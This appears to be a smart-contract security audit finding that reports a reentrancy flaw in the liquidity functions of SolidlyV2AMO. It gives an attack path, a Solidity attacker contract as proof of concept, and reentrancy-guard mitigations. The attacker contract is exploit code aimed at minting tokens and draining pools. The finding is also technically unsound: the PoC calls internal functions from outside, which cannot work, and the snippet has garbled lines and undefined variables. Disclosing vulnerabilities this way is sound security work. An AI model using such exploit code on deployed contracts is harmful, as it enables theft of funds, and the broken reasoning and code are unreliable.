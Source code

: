 Hollow Mustard Perch

High

# Reentrancy Vulnerability in Liquidity Management Functions Enables Unauthorized State Manipulation

### Summary

The absence of reentrancy guards in liquidity management functions will cause a critical security breach for the protocol's liquidity pools as an attacker can exploit external calls to re-enter and manipulate contract state, leading to unauthorized token minting and liquidity manipulation.

### Root Cause

In SolidlyV2AMO.sol, the internal functions _mintAndSellBoost, _addLiquidity, and _unfarmBuyBurn perform external calls to the router and gauge contracts without implementing reentrancy protection mechanisms such as the nonReentrant modifier from OpenZeppelin's ReentrancyGuard.

Relevant Code Snippet:
```solidity
function _mintAndSellBoost(
    uint256 boostAmount,
    uint256 minUsdAmountOut,
    uint256 deadline
) internal override returns (uint256 boostAmountIn, uint256 usdAmountOut) {
    // External call to mint
    IMinter(boostMinter).protocolMint(address(this), boostAmount);
    // External call to approve and swap
    IERC20Upgradeable(boost).approve(router, boostAmount);
    ISolidlyRouter.route0;
    routes[0] = ISolidlyRouter.route(boost, usd, true);
    uint256[] memory amounts = ISolidlyRouter(router).swapExactTokensForTokens(
        boostAmount,
        minUsdAmountOut,
        routes,
        address(this),
        deadline
    );
    // State updates
    self.vault.config.lpBalance += lp;
}
```

### Internal pre-conditions

An account with the necessary privileges (e.g., internal functions being called by authorized roles) triggers a liquidity management function like _mintAndSellBoost.

The router or gauge contracts are malicious or compromised to execute a reentrant call.

### External pre-conditions

The router contract allows execution of fallback functions that can call back into the SolidlyV2AMO contract.

The external calls to swapExactTokensForTokens and addLiquidity are not protected against reentrancy.

### Attack Path

The attacker deploys a malicious contract that interacts with the SolidlyV2AMO contract.

The attacker calls a function that triggers an external call to the router contract, such as _mintAndSellBoost.

During the execution of the external call (swapExactTokensForTokens), the router contract calls back into the SolidlyV2AMO contract via a fallback or callback function.

The attacker’s contract re-enters the SolidlyV2AMO contract’s liquidity function, allowing manipulation of state variables before the original function completes.

The attacker can mint unauthorized BOOST tokens or manipulate liquidity pool balances, causing financial loss and destabilizing the protocol.

### Impact

The protocol suffers a critical security breach where an attacker can manipulate the contract’s state, leading to unauthorized minting of BOOST tokens, draining of liquidity pools, and overall destabilization of the BOOST peg, resulting in significant financial losses and loss of user trust.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.19;

import "./SolidlyV2AMO.sol";

contract AttackerContract {
    SolidlyV2AMO amo;
    bool public attackInitiated = false;

    constructor(address amoAddress) {
        amo = SolidlyV2AMO(amoAddress);
    }

    // Fallback function to re-enter the AMO contract
    fallback() external {
        if (!attackInitiated) {
            attackInitiated = true;
            // Re-enter the _addLiquidity function with malicious parameters
            amo._addLiquidity(
                1e18,   // usdAmount
                0,      // minBoostSpend
                0,      // minUsdSpend
                block.timestamp + 100
            );
        }
    }

    function attack() external {
        // Initiate the attack by calling _mintAndSellBoost
        amo._mintAndSellBoost(
            1e18,               // boostAmount
            1e16,               // minUsdAmountOut
            block.timestamp + 100 // deadline
        );
    }
}
```

### Mitigation

Implement Reentrancy Guards:
Integrate OpenZeppelin's ReentrancyGuard into the SolidlyV2AMO contract and apply the nonReentrant modifier to all functions that perform external calls.
```solidity
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract SolidlyV2AMO is ISolidlyV2AMO, MasterAMO, ReentrancyGuard {
    // ... existing code ...

    function _mintAndSellBoost(
        uint256 boostAmount,
        uint256 minUsdAmountOut,
        uint256 deadline
    ) internal override nonReentrant returns (uint256 boostAmountIn, uint256 usdAmountOut) {
        // Function logic
    }

    function _addLiquidity(
        uint256 usdAmount,
        uint256 minBoostSpend,
        uint256 minUsdSpend,
        uint256 deadline
    ) internal override nonReentrant returns (uint256 boostSpent, uint256 usdSpent, uint256 liquidity) {
        // Function logic
    }

    function _unfarmBuyBurn(
        uint256 liquidity,
        uint256 minBoostRemove,
        uint256 minUsdRemove,
        uint256 minBoostAmountOut,
        uint256 deadline
    )
        internal
        override
        nonReentrant
        returns (uint256 boostRemoved, uint256 usdRemoved, uint256 usdAmountIn, uint256 boostAmountOut)
    {
        // Function logic
    }
}
```
Adopt Checks-Effects-Interactions Pattern:
Ensure that all state changes are made before performing external calls to prevent reentrancy.

Limit External Call Scope:
Minimize the number of external calls within critical functions to reduce attack surfaces.

Use Function Modifiers for Critical Functions:
Apply additional security measures such as onlyOwner or specific role checks where necessary.

Regular Security Audits:
Conduct thorough security audits and penetration testing to identify and remediate vulnerabilities.